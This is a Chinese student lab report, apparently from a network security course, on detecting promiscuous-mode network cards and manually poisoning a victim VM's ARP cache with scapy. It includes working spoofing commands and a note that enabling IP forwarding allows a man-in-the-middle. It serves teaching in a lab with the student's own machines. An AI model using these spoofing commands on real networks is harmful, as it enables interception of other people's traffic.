





# **💻实验四 网络监听**

### **实验环境**

#### **拓扑结构**

****

#### **网络配置及arp表**

|        拓扑角色         | **Ip地址**       | **网卡/物理地址**            |
| :---------------------: | ---------------- | ---------------------------- |
|     **网关Debain**      | `172.16.111.1`   | `08:00:27:11:54:d2`/`enp0s9` |
| **攻击者Kali-Attacker** | `10.0.2.15`      | `08:00:27:49:1b:10`/`eth0`   |
|  **受害者Kali-Victim**  | `192.168.56.108` | `08:00:27:45:77:6f`/`eth0`   |


- **网关**

  `08:00:27:11:54:d2`/`enp0s9`

  `172.16.111.1`

  ****

- **攻击者**

  `08:00:27:49:1b:10`/`eth0`

  `10.0.2.15`

****

- **受害者**

`08:00:27:45:77:6f`/`eth0`

`192.168.56.108`

****

## **实验准备**

### **安装 scapy**

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```shell
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

****

## **实验一：检测局域网中的异常终端**

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```

****

```shell
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

****

```shell
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("192.168.56.108")
```

****

```shell
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth1
```

****

```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.56.108")
```

****

```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

查阅资料，promiscping 命令会发送 ARP who-has 请求。

> - **混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址**
> - **普通模式 网卡只接收发给本机的包**

可以看出在混杂模式下，受害者主机才能收到这个数据包。

在受害者主机上开启Wireshark抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

****

****

## **实验二：手工单步“毒化”目标主机的 ARP 缓存**

### **获取当前局域网的网关 MAC 地址**

```shell
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

****

```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

****

### **伪造网关的 ARP 响应包**

```shell
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

****

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```shell
ip neigh
```

****

### **恢复受害者主机的 ARP 缓存记录**

```shell
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:11:54:d2", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")
sendp(restorepkt1, count=100, inter=0.2)
```

****

此时在受害者主机上准备“刷新”网关 ARP 记录。

```shell
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

****

## **遇到的问题和解决方案**

- **问题1:在给kali-attacker开启内部网络intnet1网卡后查看其ip地址表，内部网络对应的网卡仍然没有分配ip地址**

- **解决方法:**

- ```shell
  sudo vim /etc/network/interfaces
  ```

****

- 问题2:arpspoof命令语句使用无误，但无法正常污染靶机的arp表
- **解决方法：打开虚拟机IP转发功能**

```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- **问题3：伪造的网关ARP相应包发不出去**

  **解决方法**： 在构造ARP相应包时添加数据链路层Ether()

```shell
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")
```

****

- **总结**
  - 通过`arpspoof`可以污染靶机的arp表，使其无法正常上网
  - arp缓存表定时更新，被污染的arp一会儿就变正常了，因此实验时是一边发送arp响应一边进行抓包
  - 如果要实现中间人攻击还需要将靶机的数据包进行转发
- **问题3：[解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)**

```
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```

scapy 的交互式控制台在自动补全时触发太多 `DeprecationWarning` 的解决办法

进入 `scapy` 交互式控制后输入以下代码并执行。

```
import warnings
warnings.filterwarnings('ignore')
```

开启 tcpdump 抓包默认开启「混杂」模式，但查看网卡状态无变化

根据 [tcpdump 帮助手册记录](https://www.tcpdump.org/manpages/tcpdump.1.html)：

> **-p --no-promiscuous-mode Don't put the interface into promiscuous mode. Note that the interface might be in promiscuous mode for some other reason; hence, `-p' cannot be used as an abbreviation for`ether host {local-hw-addr} or ether broadcast'.**

使用 `-p` 参数可以禁止使用「混杂」模式嗅探网卡。

## **参考资料**

- **[2022-Fall Cybersecurity Courseware](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)**
- **[wireshark promiscuous mode capture](https://www.wireshark.org/lists/ethereal-users/200302/msg00258.html)**
- **[kali-linux configures nat mode to connect to the network](https://blog.csdn.net/Ahuuua/article/details/108575907)**


